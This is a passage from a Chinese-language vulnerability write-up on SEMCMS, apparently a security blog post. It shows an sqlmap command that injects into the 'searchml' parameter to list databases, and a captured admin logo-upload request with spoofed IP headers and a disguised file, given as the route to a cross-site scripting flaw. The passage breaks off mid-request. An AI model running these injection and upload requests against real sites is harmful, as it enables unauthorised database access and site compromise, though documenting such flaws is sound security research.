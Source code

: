 ```
X-Remote-Addr: 127.0.0.1
X-Remote-Ip: 127.0.0.1
Accept-Encoding: gzip

search=123&searchml=123123
```  
  
  
下面使用  
sqlmap  
进行验证  
```
python2  .\sqlmap.py  -r  .\1.txt  -p searchml  --dbs
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CicIXicDugvT1QYtYOeeby04UoR7rOnicdicmpWWic2cZUP0rUEPgRWeyqTwvuo6SzHBmKKuWhIbQHwYj00FziaEgPibQ/640?wx_fmt=other&from=appmsg "")  
  
  
1.3 semcms存在跨站脚本漏洞  
  
  
在后台浏览时发现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CicIXicDugvT1QYtYOeeby04UoR7rOnicdicX4v6NnZHWrGMCSBArjVWoV9icfziaLS7OUVaULXIribD0X3ytTibXed1pg/640?wx_fmt=other&from=appmsg "")  
  
上传网站logo的功能处上传图片  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CicIXicDugvT1QYtYOeeby04UoR7rOnicdic4wib8nPic8sk4mJcuGFSc9d5d44PMWKwJBJnyRSTrCpiahhvhvibLibia5iaw/640?wx_fmt=other&from=appmsg "")  
  
拦截包  
```
POST /p9aVTG_Admin/SEMCMS_Upfile.php HTTP/1.1
Host: 192.168.112.140
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------3008138927223517928917539185
Content-Length: 919
Origin: http://192.168.112.140
Connection: close
Referer: http://192.168.112.140/p9aVTG_Admin/SEMCMS_Upload.php?Imageurl=../Images/default/&filed=web_logo&filedname=form
Cookie: scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1

-----------------------------3008138927223517928917539185
Content-Disposition: form-data; name="wname"

123
-----------------------------3008138927223517928917539185
Content-Disposition: form-data; name="file"; filename="1.zip"
Content-Type: application/octet-stream

�PNG
123123123123123123123213
-----------------------------3008138927223517928917539185
Content-Disposition: form-data; name="imageurl"

../Images/default/
-----------------------------3008138927223517928917539185
Content-Disposition: form-data; name="filed"
```